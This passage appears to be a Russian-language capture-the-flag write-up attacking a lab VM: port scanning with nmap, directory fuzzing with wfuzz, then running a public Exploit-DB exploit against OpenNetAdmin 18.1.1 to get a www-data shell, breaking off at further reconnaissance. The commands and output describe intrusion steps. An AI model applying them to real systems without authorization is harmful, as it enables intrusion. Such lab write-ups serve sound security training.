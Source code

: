 <i>В этом райтапе предполагается, что виртуальная машина с заданием развернута в одной сети с машиной атакующего (сеть: <code>10.13.13.0/24</code>; атакующий подключен через <code>eth1</code>) по адресу <code>10.13.13.102</code></i>
<h2>Разведка</h2>
Прежде всего, сканируем порты атакуемой машины.
<pre><code>$ nmap -Pn -sV -p1-65535 10.13.13.102
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 08:32 EDT
Nmap scan report for 10.13.13.102
Host is up (0.0059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...</code></pre>

Видим, что на хосте запущены apache и OpenSSH. Попробуем зайти по адресу <code>http://10.13.13.102</code>.
Здесь нас ждет разочарование: мы увидим только дефолтную страницу apache2. Значит, попробуем фазинг директорий.

<pre><code>$ wfuzz -c -z file,/usr/share/wordlists/common.txt --hc 403,404 http://10.13.13.102/FUZZ</code></pre>

Следует отметить, что в данной ситуации справляются не все словари. Мне пришлось перепробовать несколько, прежде чем я получил директорию <code>/ona</code>
<pre><code>
===================================================================
ID           Response   Lines    Word     Chars       Payload        
===================================================================

000000001:   200        375 L    964 W    10918 Ch    ""             
000002020:   200        375 L    964 W    10918 Ch    "index.html"   
000002750:   301        9 L      28 W     310 Ch      "ona"          

Total time: 16.25063
Processed Requests: 4615
Filtered Requests: 4612
Requests/sec.: 283.9889
</code></pre>
Пробуем зайти на http://10.13.13.102/ona. Нас встречает что-то вроде панели администратора CMS. Немного покопавшись в ней, обнаруживаем, что почти ни на что прав у нас нет.

<h2>Удаленное исполнение кода</h2>
Хорошо, что мы знаем версию ona (кстати, ona расшифровывается как Openn Net Admin),а имено v18.1.1. Остается лишь поискать эксплойты на эту версию. Эксплойты действительно есть, например вот этот (https://www.exploit-db.com/exploits/47691). Попробуем его запустить.
<pre><code>
$ cd /tmp
$ nano sploit.sh # Записываем эксплойт в /etc/sploit.sh
$ chmod +x ./sploit.sh
$ ./sploit.sh http://10.13.13.102/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
Таким образом, мы получили контроль над пользователем www-data. Посмотрим, что еще мы можем сделать.

<h2>Еще немного разведки</h2>
Для начала попробуем подключиться по ssh
